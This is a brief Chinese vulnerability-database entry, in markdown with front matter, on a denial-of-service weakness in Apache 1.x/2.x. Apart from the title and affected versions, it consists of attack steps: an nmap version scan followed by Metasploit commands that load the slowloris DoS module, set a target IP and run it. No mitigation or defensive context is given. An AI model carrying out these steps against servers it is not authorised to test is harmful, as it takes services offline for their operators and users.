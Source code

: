 ```yaml
---
title: 'Apache拒绝服务漏洞'
date: Mon, 21 Sep 2020 17:17:03 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

Apache 1.x/2.x

### 漏洞利用

nmap使用-sV扫描服务器获取服务版本 msf利用步骤如下```
1.msfconsole(启动metasploit)

2.use auxiliary/dos/http/slowloris(使用模块)

3.set RHOST targetip(设置目标IP)

4.run(执行攻击) 
```
